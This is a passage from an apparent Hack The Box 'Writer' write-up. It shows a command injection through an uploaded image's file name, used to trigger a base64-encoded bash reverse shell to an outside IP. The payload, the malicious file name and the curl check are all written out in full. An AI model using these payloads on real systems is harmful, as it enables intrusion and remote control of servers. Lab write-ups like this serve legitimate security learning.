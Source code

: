 ```html
<tr><td valign="top"><img src="/icons/image2.gif" alt="[IMG]"></td><td><a href="test.jpg">test.jpg</a></td><td align="right">2021-10-12 22:12  </td><td align="right">264 </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[IMG]"></td><td><a href="test.jpg;%20%60pencer%60">test.jpg; `pencer`</a></td><td align="right">2021-10-13 21:36  </td><td align="right">  0 </td><td>&nbsp;</td></tr>
```

We see my original test.jpg in there at the bottom, and this second file with the added word after the file name so we know where the files end up when successfully uploaded.

This second part took me a while to figure out but what we can do is use the image_url parameter to get code execution. First create a string containing our commands to connect a reverse shell, I just used a classic PenTestMonkey one:

```text
┌──(root💀kali)-[~/htb/writer]
└─# echo -n "bash -c 'bash -i >& /dev/tcp/10.10.15.27/1337 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNy8xMzM3IDA+JjEn
```

I've base64 encoded to avoid any problems when it's uploaded.

Now create a new image file with our shell code appended like we tested before:

```text
touch 'pencer.jpg; `echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNy8xMzM3IDA+JjEn | base64 -d | bash `;'
```

Above I've used echo to pass the encoded shell to base64 -d to decode it back to the original, and then pass to bash to execute it.

Now we need to upload the file like before by browsing one of the existing stories and selecting it, then saving it. We can check it was uploaded with curl again:

```html
┌──(root💀kali)-[~/htb/writer]
└─# curl http://writer.htb/static/img/
<SNIP>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="pencer.jpg;%20%60echo%20YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNy8xMzM3IDA+JjEn%20%7c%20base64%20-d%20%7c%20bash%20%60;">pencer.jpg; `echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNy8xMzM3IDA+JjEn | base64 -d | bash `;</a></td><td align="right">2021-10-13 21:48  </td><td align="right">  0 </td><td>&nbsp;</td></tr>
```

Finally we upload our image with shell appended again, but this time catch it in Burp and add the path to the file:

![writer-exploit](/assets/images/2021-10-13-22-50-36.png)
